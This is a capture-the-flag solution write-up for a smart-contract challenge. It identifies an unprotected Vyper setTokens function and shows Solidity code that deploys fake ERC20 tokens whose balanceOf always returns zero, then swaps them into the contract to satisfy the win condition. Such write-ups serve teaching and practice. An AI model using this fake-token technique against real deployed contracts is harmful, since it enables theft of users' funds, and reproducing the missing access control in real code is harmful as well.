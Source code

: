 # sakarkc2122-dex - Solution

## Find the vulnerability

This challenge leaves false leads. At the beginning it seems similar to ethernaut challenge [22](https://ethernaut.openzeppelin.com/level/22).

Thedifference is that there you will be successful if you manage to drain all of at least 1 of the 2 tokens from the contract. In this challenge you need the contract balance of each token to be 0.

Inspecting the contract we'll find out that it is eaier than we might think. We found an unprotected `setTokens` fuction. Bingo!

```python
@external
def setTokens(_token1: address, _token2: address):
    self.token1 = _token1
    self.token2 = _token2
```

## Exploit the contract

To exploit the contract we just need to create two fake erc20 tokens and set them to the contract.

```solidity
contract FakeToken {
    function balanceOf(address account) external view returns (uint256) {
        return 0;
    }
}
```

```solidity
FakeToken tokenA = new FakeToken();
FakeToken tokenB = new FakeToken();
dex.setTokens(address(tokenA), address(tokenB));
dex.solve();
```
